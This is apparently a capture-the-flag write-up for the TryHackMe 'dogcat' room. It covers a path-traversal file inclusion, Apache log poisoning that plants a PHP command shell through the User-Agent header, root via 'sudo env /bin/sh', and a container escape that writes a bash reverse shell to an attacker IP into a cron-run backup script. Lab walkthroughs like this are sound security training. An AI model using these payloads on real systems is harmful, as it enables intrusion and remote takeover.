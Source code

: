 # dogcat Writeup
https://tryhackme.com/room/dogcat


## Flag 1

First I navigate to the website running on the endpoint. The hint led me to believe that messing around with the view parameter was a good place to start. After trying different things it became obvious that they were filtering for the words cat or dog. The trick I used to get around this was:
```
?view=./dog/../../../../../../../SOME FILE
```
This is the source code filtering the requests.
* It checks for '.php' extension and adds it if missing
* It checks if view parameter includes either cat or dog
```
    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
```

After doing some research and manual checking of common files I came acrossed access.log.
```
?view=./dog/../../../../../../../var/log/apache2/access.log&ext
```
* Include the 'ext' so that it won't add the php extension to the end.

The access.log included ip, time, request, and user-agent information. I sent a modified request using Burp where I made the user-agent = `<?php system($_GET['cmd']);?>` This way when we navigate to access.log we can pass in a parameter 'cmd' which will execute commands on the system.

```?view=./dog/../../../../../../../var/log/apache2/access.log&ext&cmd=whoami```


I found a great blog post about log poisoning on apache servers with LFI [here](https://www.hackingarticles.in/apache-log-poisoning-through-lfi/). I used the same metasploit module as well.

![alt text](https://github.com/nickswink/Dogcat-Writeup/blob/main/metasploit.PNG?raw=true)

* After this we drop in as user www-data and the first flag is in our current directory. 





## Flag 2

The second flag was pretty easy to find which was just a directory up.






## Flag 3 

The flag was in the root directory which we need root permissions for. After some quick manual enumeration I found that we are able to run /usr/bin/env without a password.

```
sudo -l 
Matching Defaults entries for www-data on 5d7fb280ac0c:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 5d7fb280ac0c:
    (root) NOPASSWD: /usr/bin/env
```
A quick visit to [GTFOBins](https://gtfobins.github.io/gtfobins/env/) and we can run `sudo env /bin/sh` and Boom! We are root! Navigate to /root to read flag3.txt





## Flag 4

Honestly I had no idea how to get flag 4. You need to escape the docker container that you are in which was a new concept for me. This docker container runs priviledged on the parent machine and has a backup bash script that runs frequently. You can use this to send a shell on the parent machine to yourself.

Navigate to /opt/backups

```
echo "#!/bin/bash" > backup.sh
echo "/bin/bash -c 'bash -i >& /dev/tcp/<YOUR-IP>/1234 0>&1'" >> backup.sh
```

On attacker machine:
```
nc -lnvp 1234
```

backup.sh runs frequently on the parent machine and will send you a priviledged parent shell when it does and the last flag is right there.
